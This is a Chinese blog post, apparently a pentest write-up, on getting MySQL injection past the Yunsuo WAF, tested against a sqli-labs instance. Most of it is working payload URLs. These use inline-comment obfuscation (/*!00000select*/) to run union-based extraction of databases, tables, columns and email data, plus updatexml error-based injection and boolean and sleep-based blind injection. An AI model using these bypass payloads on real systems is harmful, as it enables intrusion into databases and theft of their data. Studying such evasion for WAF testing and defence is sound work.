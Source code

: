 ```yaml
---
title: "Bypass MySQL Yunsuo"
date: 2019-10-12T22:46:46+08:00
draft: false
tags: []
categories: ['bypass']
---
```


开锁

<!--more-->

继上文《Bypass MySQL Safedog》。

## 判断注入

智障云锁不拦截and or

```
http://172.16.1.157/sql/Less-1/?id=1' and 1=1 -- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and 1=2 -- +	不正常
```

## 判断字段数

```
http://172.16.1.157/sql/Less-1/?id=1' order by  -- +	拦截
http://172.16.1.157/sql/Less-1/?id=1' order  3 -- +		不拦截
http://172.16.1.157/sql/Less-1/?id=1' by 3 -- +			不拦截
```

那就打乱order by

```
http://172.16.1.157/sql/Less-1/?id=1' order/*!50000*/ by 3 -- +	正常
http://172.16.1.157/sql/Less-1/?id=1' order/*!50000*/ by 4 -- +	不正常
http://172.16.1.157/sql/Less-1/?id=1' order/*!50000by*/  3 -- +	正常
http://172.16.1.157/sql/Less-1/?id=1' order/*!50000by*/  4 -- +	不正常
```

## 联合查询

对union select的拦截比较狠，用all/distinct/distinctrow加内联注释打乱

```
http://172.16.1.157/sql/Less-1/?id=-1' union select 1,2,3 -- +	拦截
http://172.16.1.157/sql/Less-1/?id=-1' union all select 1,2,3 -- +	拦截
http://172.16.1.157/sql/Less-1/?id=-1' union all /*!select 1,2,3 -- +	不拦截
http://172.16.1.157/sql/Less-1/?id=-1' union all /*!select*/ 1,2,3 -- +	拦截
http://172.16.1.157/sql/Less-1/?id=-1' union all /*!00000select*/ 1,2,3 -- +	拦截
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,3 -- +	不拦截
```

得到结论为在关键字两边包裹内联，如：`/*!00000union*/`

```
http://172.16.1.157/sql/Less-1/?id=-1' /*!00000union*/ /*!00000all*/ /*!00000select*/ 1,2,3 -- +
http://172.16.1.157/sql/Less-1/?id=-1'  union/*!50000distinct /*!50000select*/1,2,database() -- '
http://172.16.1.157/sql/Less-1/?id=-1'  /*!00000union/*!00000 distinct*/ select 1,2,database/**/() -- +
http://172.16.1.157/sql/Less-1/?id=-1'  /*!00000union/*!00000 distinct select*/ 1,2,database/**/() -- +
http://172.16.1.157/sql/Less-1/?id=-1' /*!00000union *//*!00000 /*!distinct select*/ 1,2,database/**/() -- +
```

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(select table_name) -- +	不拦截
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(select table_name from) -- +	拦截
```

使用内联包裹关键字就可以了

库名

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(/*!00000select*/ schema_name /*!00000from*/ information_schema.schemata  limit 0,1) -- +
```

表名

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(/*!00000select*/ table_name /*!00000from*/ information_schema.tables where table_schema=database() limit 0,1) -- +
```

列名

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(/*!00000select*/ column_name /*!00000from*/ information_schema.columns where table_name='emails' and table_schema=database() limit 0,1) -- +
```

查数据

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(/*!00000select*/ email_id /*!00000from*/ emails  limit 0,1) -- +
```

## 报错注入

```
http://172.16.1.157/sql/Less-1/?id=-1' and /*!00000updatexml*/(1,concat(0x7e,user(),0x7e),1) -- +
```

## 盲注

我手工测得时候发现云锁对盲注友好的很，对于and之后的比较运算符以及字符串截取函数几乎上不拦截，甚至是不用绕。

### 布尔盲注

判断长度

```
http://172.16.1.157/sql/Less-1/?id=1' and length(database())=8 -- +
```

逐位

```
http://172.16.1.157/sql/Less-1/?id=1' and substr(database(),1,1)='s' -- +	http://172.16.1.157/sql/Less-1/?id=1' and left(database(),1)='s' -- +
```

查表

```
http://172.16.1.157/sql/Less-1/?id=1' and substr((/*!00000select*/ table_name /*!00000from*/ information_schema.tables limit 0,1),1,1)='C' -- +
```

可以发现跟上面联合查询一样的，只需要给关键字加内联就行了，布尔盲注就到这。

### 时间盲注

写到这发现if()和sleep()都不用绕。。。

```
http://172.16.1.157/sql/Less-1/?id=1' and if((user()='root@localhost'),sleep(5),1) -- +
```

用到select的时候就用内联就完事了。

## 总结

云锁相比安全狗来讲规则弱的太多了，尤其是对于盲注的拦截，简直不要太友好，对于into outfile也不拦截，算是给安全从业人员留了后路。

ps：有趣的是云锁官网用的是奇安信+云锁双waf

![20191013002322](https://y4er.com/img/uploads/20191013002322.png)

![20191013002442](https://y4er.com/img/uploads/20191013002442.png)




**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**